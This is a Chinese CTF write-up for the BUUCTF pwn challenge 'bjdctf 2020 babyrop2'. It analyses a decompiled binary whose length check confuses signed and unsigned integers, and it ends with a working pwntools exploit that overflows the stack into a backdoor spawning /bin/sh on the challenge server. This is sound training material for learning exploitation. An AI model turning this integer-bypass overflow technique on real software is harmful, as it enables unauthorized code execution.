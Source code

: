 ```yaml
---
author: 
  name: Zephyr
title: bjdctf 2020 babyrop2
date: 2022-3-22 23:17:03
permalink: /pages/2e1547494524d192
tags: 
  - buuctf
  - pwn
  - StackOverflow
---
```


# bjdctf 2020 babyrop2

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/bjdctf_2020_babystack2/bjdctf_2020_babystack2'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

## 静态分析

主函数如下

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf; // [rsp+0h] [rbp-10h]
  size_t nbytes; // [rsp+Ch] [rbp-4h]

  setvbuf(_bss_start, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 1, 0LL);
  LODWORD(nbytes) = 0;
  puts("**********************************");
  puts("*     Welcome to the BJDCTF!     *");
  puts("* And Welcome to the bin world!  *");
  puts("*  Let's try to pwn the world!   *");
  puts("* Please told me u answer loudly!*");
  puts("[+]Are u ready?");
  puts("[+]Please input the length of your name:");
  __isoc99_scanf("%d", &nbytes);
  if ( (signed int)nbytes > 10 )
  {
    puts("Oops,u name is too long!");
    exit(-1);
  }
  puts("[+]What's u name?");
  read(0, &buf, (unsigned int)nbytes);
  return 0;
}
```

backdoor函数如下

```c
signed __int64 backdoor()
{
  system("/bin/sh");
  return 1LL;
}
```

## 思路分析

1. 目前信息：
   - 控制nbytes即可实现任意长度数据写入
   - nbytes被if判断限制在10
   - if判断nbytes时是有符号数，read时是无符号数
   - 有后门函数
   - No PIE
2. 思路：
   - 利用有符号数和无符号数的区别，绕过判断，实现溢出劫持程序流到后门函数获得shell

## exp

```python
from pwn import *
context(os='linux', arch='amd64', log_level='debug')
pwnfile = '/root/pwn/buuctf/bjdctf_2020_babystack2/bjdctf_2020_babystack2'
io = remote('node4.buuoj.cn', 28880)
# io = process(pwnfile)
elf = ELF(pwnfile)
backdoor_addr = elf.symbols['backdoor']
offset = 0x10+8
io.sendlineafter('your name:', '2147483649')
payload = flat(['a'*offset, backdoor_addr])
io.sendlineafter('u name?\n', payload)
io.interactive()
```